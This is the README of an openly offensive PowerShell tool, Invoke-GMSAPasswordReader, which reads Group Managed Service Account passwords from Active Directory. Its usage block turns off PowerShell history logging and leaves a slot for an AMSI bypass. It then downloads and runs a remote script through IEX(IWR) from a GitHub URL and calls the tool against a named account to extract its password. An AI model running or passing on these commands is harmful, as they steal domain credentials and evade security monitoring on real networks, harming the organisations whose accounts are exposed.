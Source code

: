 # Invoke-GMSAPasswordReader

## The .Net assembly is based on my modified fork of @rvazarkar GMSAPasswordReader: https://github.com/ricardojba/GMSAPasswordReader.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the GMSAPasswordReader [GMSAPasswordReader](https://github.com/ricardojba/GMSAPasswordReader).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-GMSAPasswordReader.ps1')

Invoke-GMSAPasswordReader -Command "--AccountName jkohler"
```

## Credits

[rvazarkar] for the original [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader).
